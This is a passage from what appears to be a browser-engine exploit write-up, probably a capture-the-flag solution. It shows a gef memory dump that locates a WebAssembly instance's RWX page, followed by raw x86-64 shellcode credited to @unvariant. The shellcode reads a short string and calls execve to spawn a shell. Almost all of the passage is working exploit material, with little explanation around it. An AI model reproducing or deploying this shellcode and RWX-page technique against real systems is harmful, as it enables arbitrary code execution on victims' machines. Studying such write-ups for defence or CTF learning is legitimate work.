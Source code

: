 ```
gef➤  x/64xw 0x22b000195925-1 + 0x50 <-- wasm_instance address + 0x50
0x22b000195974: 0x2f8f6000      0x00001a03   <--  RWX Page  0xb36461f0      0x00005a98
0x22b000195984: 0xb36461e8      0x00005a98      0xb3646208      0x00005a98
0x22b000195994: 0xb3646200      0x00005a98      0xb3646130      0x00005a98
0x22b0001959a4: 0xb3665989      0x00005a98      0xb36a6a50      0x00005a98
0x22b0001959b4: 0x000471dd      0x00000f59      0x00000f59      0x00000219
0x22b0001959c4: 0x00047111      0x000472a1      0x00182291      0x000471d1
0x22b0001959d4: 0x00000251      0x00000251      0x00000251      0x00000219
0x22b0001959e4: 0x00000219      0x00000251      0x000471c1      0x00047295
0x22b0001959f4: 0x00000219      0x00000219      0x00000200      0x00000251
0x22b000195a04: 0x0018fa75      0x00000219      0x00000219      0x0004720d
0x22b000195a14: 0xfffffffe      0x00000000      0x0004727d      0x00000061
0x22b000195a24: 0x28021010      0x0d00080e      0x084007ff      0x0018a659
0x22b000195a34: 0x0018a585      0x0004724d      0x00000229      0x00000add
0x22b000195a44: 0x00000000      0x00001f35      0x00040440      0xffffffff
0x22b000195a54: 0x00000251      0x00000006      0x00000251      0x00000251
0x22b000195a64: 0x00000251      0x00000061      0x4e000006      0x0d00010f
gef➤  
```

**Shellcode (credited to @unvariant)**

The raw shellcode:

```
bits 64
default rel

push rsp
pop rsi
xor edi, edi
nop
nop
db 0xeb, 0x18-8

mov edx, 16
nop
db 0xeb, 0x0e-8

xor eax, eax
syscall
nop
nop
db 0xeb, 0x0e-8

mov eax, dword 0x3b
nop
db 0xeb, 0x0e-8

push rsp
pop rdi
xor esi, esi
xor edx, edx
db 0xeb, 0x0e-8

syscall
db 0xeb, 0xfe
nop
nop
nop
nop
```
